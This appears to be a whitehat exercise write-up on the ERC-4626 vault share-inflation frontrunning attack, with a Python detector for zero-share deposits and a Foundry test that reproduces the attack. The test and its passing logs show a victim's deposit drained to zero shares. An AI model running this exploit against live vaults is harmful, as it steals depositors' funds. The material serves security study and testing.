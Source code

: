 # Vault - Tier 1
You are looking through an old version of the OpenZeppelin implementation of ERC-4626 and notice a vulnerability that requires frontrunning an innocent user. You have been granted a large amount of ETH (say e.g. 1k ETH, but you are free to choose the amount :) ) and want to set up a whitehat bot to execute this exploit and return the funds to the user.


- a) Describe the vulnerability and the payoffs for an attacker.

The key issue in the ERC-4626 tokenized vault standard is a vulnerability that comes from how shares are calculated when assets are deposited. Specifically, the formula relies on the asset.balanceOf(address(this)) as the denominator, and can be manipulated (frontrunned) by a potential attacker, by making a transfer to the vault contract right before the legitimate transaction to deposit on the Vault

``` sharesAmount = totalShares * assetAmount / asset.balanceOf(address(this)) ```

Depending on the implementation an protection mechanisms in place, the potential vulnerability might differ: 
1.  A vault might be vulnerable to a total loss of funds to the user, going directly to the attacker, if the vault doesn't implement any protection, by achieving rounding the shares of the depositor to 0.
2.  A vault might be vulnerable to a partial loss of funds if there is protection, by rounding the shares of the depositor to 1
3. A vault might have proper protection in place by having dead shares, which make impossible to the attacker to make a profit and extremely expensive to make a griefing attack.

The payoffs for the attacker, in 1. are the most important, as he can receive the 100% of the deposit from the innocent user. In 2. he can also ensure a profit. He doesn't take a risk by executing the attack, since he won't be losing funds in any case.

In 3, however, he would have to lose an important quantity just to sabotage the deposit of the user.

For the shake of this exercise, I am assuming the implementation we are looking for is having a vulnerability 1, since that was the case for the old OpenZeppeling implementation of ERC4626

- b)  Produce code that can check if this vulnerability has occurred in the past and determine how much value was lost, if any.

Assuming we are in the first scenario, we can make a simple assumption to see if the attack was previously done, by filtering previous Deposit events on the vault, where the assets deposited are > 0 and the shares received are 0. The attacker could have rounded the shares of the victim to 1 but we will assume the attacker doesn't leave money on the table.

```python
def check_for_attack(events):
    for event in events:
        assets = event['args']['assets']
        shares = event['args']['shares']

        print(f"Assets: {assets}, Shares: {shares}")

        # Check if shares are 0 and assets > 0
        if shares == 0 and assets > 0:
            caller = event['args']['caller']
            owner = event['args']['owner']
            print(f"Potential attack detected! Caller: {caller}, Owner: {owner}, Assets lost: {assets} tokens")
        else:
            print("No attack detected")
```


- c)  Write code for the bot that can carry out the exploit (don’t worry about returning user funds).

A test on foundry was created replicating the full situation, where the victim got out of tokens, and we were able to get access to 100% of their deposit can be found on `./simulations`

```solidity
    function test() public {
        uint256 vaultBalanceStart = weth.balanceOf(address(vault));
        uint256 victimBalanceStart = weth.balanceOf(victim);
        uint256 whitehatBalanceStart = weth.balanceOf(whitehat);

        console2.log("vault balance start", vaultBalanceStart);
        console2.log("victim balance start", victimBalanceStart);
        console2.log("whitehat balance start", whitehatBalanceStart);

        vm.startPrank(whitehat);
        vault.deposit(1, whitehat);

        uint256 vaultBalanceAfterMint = weth.balanceOf(address(vault));

        assertEq(vaultBalanceAfterMint, 1);

        weth.transfer(address(vault), inflationAmount);

        uint256 vaultBalanceAfterTransfer = weth.balanceOf(address(vault));
        uint256 vaultTotalSupplyAfterTransfer = vault.totalSupply();

        console2.log("vault balance after transfer", vaultBalanceAfterTransfer);
        console2.log("vault total supply after transfer", vaultTotalSupplyAfterTransfer);
        console2.log("victim deposit");

        vm.startPrank(victim);
        vault.deposit(victimDeposit, victim);
        
        uint256 victimBalanceAfterDeposit = weth.balanceOf(victim);
        uint256 vaultBalanceAfterDeposit = weth.balanceOf(address(vault));
        uint256 vaultTotalSupplyAfterDeposit = vault.totalSupply();
        uint256 victimShares = vault.balanceOf(victim);
        uint256 whitehatShares = vault.balanceOf(whitehat);

        console2.log("victim balance after deposit", victimBalanceAfterDeposit);
        console2.log("vault balance after deposit", vaultBalanceAfterDeposit);
        console2.log("vault total supply after deposit", vaultTotalSupplyAfterDeposit);
        console2.log("victim shares", victimShares);
        console2.log("whitehat shares", whitehatShares);

        assertEq(victimShares, 0);
        assertEq(whitehatShares, 1);
        assertEq(vaultBalanceAfterDeposit, inflationAmount + victimDeposit + 1);
    }
```

It can be run by going into simulations and running 

`forge test --match-path test/01_ERC_4626.sol --via-ir --fork-url  http://127.0.0.1:8599 -vvv `

```shell
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for test/01_ERC_4626.sol:VaultTest
[PASS] test() (gas: 158259)
Logs:
  vault balance start 0
  victim balance start 100000000000000000000
  whitehat balance start 100000000000000000000
  deposit
  vault balance after transfer 10000000000000000001
  vault total supply after transfer 1
  victim deposit
  deposit
  victim balance after deposit 90000000000000000000
  vault balance after deposit 20000000000000000001
  vault total supply after deposit 1
  victim shares 0
  whitehat shares 1

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 8.88ms (2.40ms CPU time)
```